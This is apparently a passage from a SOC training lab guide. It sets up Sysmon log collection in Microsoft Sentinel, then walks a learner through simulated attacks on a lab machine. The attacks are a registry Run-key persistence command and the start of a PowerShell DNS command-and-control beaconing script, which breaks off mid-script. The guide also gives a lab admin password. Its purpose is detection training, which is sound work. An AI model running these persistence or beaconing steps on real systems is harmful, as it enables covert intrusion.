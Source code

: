 15. Select the **Windows Event logs** tab.

16. Select **Add windows event log** button.

17. Enter **Microsoft-Windows-Sysmon/Operational** in the Log name field.

18. Select **Apply**.

## Conduct attacks

### Task 1: Attack Windows configured with Defender for Endpoint.

In this task, you will perform attacks on a host with Microsoft Defender for Endpoint configured.

1. Login to WIN1 virtual machine as Admin with the password: **Pa55w.rd**.  

2. In the search of the task bar, enter *Command*.  Command Prompt will be displayed in the search results.  Right-click on the Command Prompt and select **Run as Administrator**. Confirm any User Account Control prompts that appear.

3. In the command prompt, enter the command in each row pressing Enter key after each row:
```
cd \
mkdir temp
cd temp
```
4. Attack 1 - Copy and run this command:

```
REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "SOC Test" /t REG_SZ /F /D "C:\temp\startup.bat"
```

5. Attack 3 - Copy and run this command:

```
notepad c2.ps1
```
Select **Yes** to create a new file and copy the following PowerShell script into c2.ps1 and select **save**.

**Note** Paste into the Virtual Machine might have a limited length.  Paste this in three sections to ensure all the script is pasted into the Virtual Machine.  Make sure the script looks as it does in these instructions within the notepad c2.ps1 file.

```


param(
    [string]$Domain = "microsoft.com",
    [string]$Subdomain = "subdomain",
    [string]$Sub2domain = "sub2domain",
    [string]$Sub3domain = "sub3domain",
    [string]$QueryType = "TXT",
        [int]$C2Interval = 8,
        [int]$C2Jitter = 20,
        [int]$RunTime = 240
)


$RunStart = Get-Date
$RunEnd = $RunStart.addminutes($RunTime)

$x2 = 1
$x3 = 1 
Do {
    $TimeNow = Get-Date
```
